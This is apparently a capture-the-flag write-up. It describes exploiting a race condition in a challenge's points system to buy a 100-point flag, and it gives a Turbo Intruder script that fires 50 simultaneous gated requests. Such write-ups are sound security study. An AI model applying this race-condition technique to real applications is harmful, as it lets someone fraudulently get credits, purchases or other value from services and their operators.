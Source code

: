 This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

`def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)`
    


